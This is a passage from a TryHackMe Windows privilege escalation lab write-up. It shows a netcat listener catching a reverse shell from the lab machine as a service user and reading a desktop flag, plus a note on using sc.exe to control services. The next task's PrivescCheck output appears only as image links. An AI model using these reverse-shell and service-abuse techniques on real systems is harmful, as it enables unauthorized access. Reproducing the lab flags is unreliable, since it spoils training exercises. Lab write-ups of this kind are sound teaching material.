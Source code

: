 > [!NOTE] Note
> PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.93.80] 50107
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr1

C:\Windows\system32>cd %userprofile%
cd %userprofile%

C:\Users\svcusr1>cd Desktop
cd Desktop

C:\Users\svcusr1\Desktop>type flag.txt
type flag.txt
THM{AT_YOUR_SERVICE}
C:\Users\svcusr1\Desktop>
```

> THM{AT_YOUR_SERVICE}

##### Get the flag on svcusr2's desktop.

Save **PrivescCheck** result from tmux with `PREFIX + SHIFT + ALT + p`

```bash
┌──(kali㉿kali)-[~]
└─$ less tmux-history-thm-1-1-20230610T062406.log
```

![](../../attachment/9a41175b0755e9333bc0c5bfb13662bc.png)

![](../../attachment/54b49c27a9e0a94c164360add3f0c6db.png)
